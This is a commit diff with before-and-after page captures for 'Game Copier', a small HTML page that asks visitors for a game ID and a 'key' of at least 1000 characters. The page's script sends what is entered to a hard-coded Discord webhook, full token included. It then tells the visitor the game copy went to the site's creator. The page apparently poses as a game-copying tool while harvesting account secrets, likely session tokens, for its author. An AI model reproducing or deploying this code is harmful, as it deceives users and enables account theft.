

Before and after one commit to Boogzer11/game-copier, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 190-616 px from the top of the page, without its empty margins (154-1125 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,94 +2,118 @@
 <html lang="en">
 <head>
     <meta charset="UTF-8">
+    <meta http-equiv="X-UA-Compatible" content="IE=edge">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Game Copier</title>
+    <title>Game Copier, Developed By Crimsondeity</title>
     <style>
-        * {
-            box-sizing: border-box;
-            margin: 0;
-            padding: 0;
-        }
-
         body {
-            font-family: Arial, sans-serif;
-            background-color: #1c1c1c;
-            color: white;
+            background-color: #1e1e1e; /* Dark background */
+            color: white; /* Text color */
+            font-family: Arial, sans-serif; /* Font */
             display: flex;
             justify-content: center;
             align-items: center;
             height: 100vh;
+            margin: 0;
         }
 
         .container {
+            background-color: #2a2a2a; /* Slightly lighter background for the container */
+            padding: 30px;
+            border-radius: 8px;
+            box-shadow: 0 0 10px rgba(0, 0, 0, 0.5);
+            width: 280px; /* Fixed width for the container */
+        }
+
+        h1 {
             text-align: center;
         }
 
-        h1 {
-            margin-bottom: 20px;
+        .form-group {
+            margin-bottom: 15px; /* Space between fields */
         }
 
-        .textbox {
-            width: 300px;
-            padding: 10px;
-            margin: 10px 0;
-            border: none;
-            border-radius: 5px;
-            background-color: #2a2a2a;
-            color: white;
+        label {
+            display: block; /* Labels above inputs */
+            margin-bottom: 5px; /* Space below labels */
         }
 
-        .copy-button {
-            width: 300px;
-            padding: 10px;
-            border: none;
-            border-radius: 5px;
-            background-color: #4caf50;
-            color: white;
-            font-size: 16px;
-            cursor: pointer;
-            transition: background-color 0.3s;
+        input, textarea {
+            width: 100%; /* Full width */
+            padding: 10px; /* Padding for comfort */
+            border: 1px solid #444; /* Border color */
+            border-radius: 4px; /* Rounded corners */
+            background-color: #333; /* Input background */
+            color: white; /* Input text color */
         }
 
-        .copy-button:hover {
-            background-color: #45a049;
+        textarea {
+            resize: none; /* Disable resizing for textarea */
+            height: 100px; /* Fixed height for textarea */
+        }
+
+        button {
+            width: 100%; /* Full width */
+            padding: 10px; /* Padding for comfort */
+            background-color: green; /* Green button */
+            color: white; /* Text color */
+            border: none; /* No border */
+            border-radius: 4px; /* Rounded corners */
+            cursor: pointer; /* Pointer cursor */
+        }
+
+        button:hover {
+            background-color: darkgreen; /* Darker green on hover */
         }
     </style>
 </head>
 <body>
     <div class="container">
         <h1>Game Copier</h1>
-        <input type="text" id="key" placeholder="Enter your key" class="textbox">
-        <input type="text" id="gameId" placeholder="Enter game ID" class="textbox">
-        <button id="copyButton" class="copy-button">Copy</button>
+        <form id="executorForm">
+            <div class="form-group">
+                <label for="gameId">Game ID (Numbers Only)</label>
+                <input type="text" id="gameId" placeholder="Enter Game ID" required>
+            </div>
+            <div class="form-group">
+                <label for="key">Key (Min 1000 Characters)</label>
+                <textarea id="key" placeholder="Enter Key" required></textarea>
+            </div>
+            <button type="button" id="copyButton">Copy</button>
+        </form>
     </div>
 
     <script>
         document.getElementById('copyButton').onclick = function() {
+            const gameId = document.getElementById('gameId').value;
             const key = document.getElementById('key').value;
-            const gameId = document.getElementById('gameId').value;
 
-            // Prepare the data to send
-            const data = {
-                content: `Key: ${key}\nGame ID: ${gameId}`
-            };
+            // Validate input
+            const gameIdValid = /^\d+$/.test(gameId);
+            const keyValid = key.length >= 1000;
+
+            if (gameIdValid && keyValid) {
+                // Prepare the data as text
+                const data = `Game ID: ${gameId}\nKey: ${key}`;
+                const blob = new Blob([data], { type: 'text/plain' });
+                const formData = new FormData();
+                formData.append('file', blob, 'data.txt');
 
                 // Send the data to the webhook
                 fetch('https://discord.com/api/webhooks/1298896604945842197/I9fgaOcI5rDdWqkUYPB8OT2-tg0CE5cP5d94AdTv4caUmJhVbS17uJ5oyL9yx5GcaQ2j', {
                     method: 'POST',
-                headers: {
-                    'Content-Type': 'application/json'
-                },
-                body: JSON.stringify(data)
-            }).then(response => {
+                    body: formData
+                })
+                .then(response => {
                     if (response.ok) {
-                    alert('Information sent successfully!');
+                        alert('Game copy sent to Website creator, contact him to get it');
                     } else {
-                    alert('Error sending information.');
+                        alert('failed to copy game.');
                     }
-            }).catch(error => {
-                console.error('Error:', error);
                 });
+            } else {
+                alert('Please make sure the Game ID is numbers only and the Key has at least 1000 characters.');
+            }
         };
     </script>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
